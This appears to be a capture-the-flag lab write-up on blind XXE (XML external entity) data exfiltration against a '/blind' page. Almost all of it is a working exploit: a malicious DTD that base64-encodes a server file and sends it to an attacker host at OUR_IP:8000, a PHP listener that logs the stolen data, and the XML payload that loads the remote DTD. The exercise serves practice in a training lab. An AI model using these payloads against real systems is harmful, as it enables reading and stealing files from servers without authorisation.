 # Blind Data Exfiltration

#### Questions
+ 2  Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag

### Manual

xxe.dtd

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/327a6c4304ad5938eaf0efb6cc3e53dc.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

index.php

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

![](images/24.png)

